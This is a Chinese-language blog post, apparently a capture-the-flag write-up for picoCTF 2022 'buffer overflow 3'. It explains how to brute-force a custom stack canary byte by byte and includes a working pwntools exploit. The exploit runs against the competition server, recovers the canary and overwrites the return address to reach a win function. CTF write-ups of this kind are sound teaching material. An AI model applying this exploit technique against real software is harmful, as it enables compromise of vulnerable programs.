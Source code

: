 ```yaml
---
layout: post
title: "picoCTF2022 buffer overflow 3 wp"
date:   2022-3-21
tags: [ctf_wp]
comments: true
author: wsxk
---
```


[题目附件](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-21-picoCTF2022_PWN_buffer_overflow3/vuln)

这道题其实不难，但是当时做的时候被挡住了。

这个故事告诉我们pwn是学无止境的

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-21-picoCTF2022_PWN_buffer_overflow3/1.png)

可以看到作者自定义了一个 canary

一开始我是不会做的，看到了提示，说有比较高效的方法可以爆破出canary的值

想了半天，如果要爆破canary，就是4字节的大整数，爆破就要爆半天了

后来仔细看题目

它一开始让我们输入 输入的字符串长度（buf的长度是64，人造canary就在其下面的位置）

我们可以输入65字节，然后输入64个'a'+一个字节的值（设为x），

如果输出stack smashing，说明x和canary的最低字节不相等

然而我们最多测试256次就能得到canary的最低字节

接下来我们输入66字节，输入64个'a'+得到的低字节canary+ 下一个字节的猜测

因此，实际上我们最多只要测256*4 = 1024次就可以得到完整的canary值


最后附上最后的exp

    from pwn import *

    #context(log_level='debug')
    canary = b''



    for i in range(4):
        for j in range(256):
            character = j
            #io = process('./vuln')
            io = remote('saturn.picoctf.net',49673)
            io.recvuntil("How Many Bytes will You Write Into the Buffer?")
            io.sendline(str(64+i+1))
            payload = b'w'*(64) + canary+bytes(chr(character).encode())
            io.recvuntil("Input>")
            io.sendline(payload)
            hint= io.recvline() 
            io.close()
            #print(b'hint: '+hint)
            #print(b"j:"+bytes(j))
            if b"Now Where's the Flag" in hint:
                canary += bytes(chr(character).encode())
                break

    print(canary)

    #canary = u32(canary)
    #io = process('./vuln')
    io = remote('saturn.picoctf.net',49673)
    io.recvuntil("How Many Bytes will You Write Into the Buffer?")
    io.sendline(str(100))
    payload = b'w'*(64) + canary+b'a'*16+p32(0x8049336)
    io.recvuntil("Input>")
    #gdb.attach(io)
    io.sendline(payload)
    io.interactive()


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>